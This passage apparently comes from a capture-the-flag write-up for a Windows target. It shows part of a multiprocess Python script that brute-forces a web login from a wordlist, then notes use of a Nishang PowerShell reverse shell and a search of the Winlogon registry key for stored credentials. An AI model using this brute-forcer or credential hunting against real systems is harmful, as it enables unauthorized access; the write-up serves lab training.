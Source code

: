         if '<p>The information is incorrect.</p>' in r.text:
            return password, False
        else:
            return password, True
    
    
    def main(wordlist, nprocs=MAX_PROC):
        with open(wordlist, 'r', encoding='latin-1') as f:
           words = f.read().rstrip().replace('\r','').split('\n')
    
        words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]
    
        pool = Pool(processes=nprocs)
    
        i = 0
        print_status(0, len(words))
        for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
            if status:
                sys.stdout.write("\n[+] Found password: {} \n".format(password))
                pool.terminate()
                sys.exit(0)
            else:
                i += 1
                print_status(i, len(words))
    
        print("\n\nPassword not found\n")
    
    def print_status(i, l, max=30):
        sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))
    
    if __name__ == '__main__':
        if len(sys.argv) != 2:
            usage()
        main(sys.argv[1])
    

### Issues with Shells and Getting WinLogon Creds

Originally, I got on with my standard Nishang `Invoke-PowerShellTcp.ps1`
shell, and when I checked for winlogon creds, there were none there:

    
    
    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> whoami
    nt authority\iusr
    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-itemproperty .
    
    DefaultDomainName       :
    DefaultUserName         :
    EnableSIHostIntegration : 1
    PreCreateKnownFolders   : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Shell                   : explorer.exe
    ShellCritical           : 0
    SiHostCritical          : 0
    SiHostReadyTimeOut      : 0
    SiHostRestartCountLimit : 0
    SiHostRestartTimeGap    : 0
    PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                              E\software\microsoft\windows
                              nt\currentversion\winlogon
    PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                              E\software\microsoft\windows nt\currentversion
    PSChildName             : winlogon
    PSDrive                 : HKLM
    PSProvider              : Microsoft.PowerShell.Core\Registry
    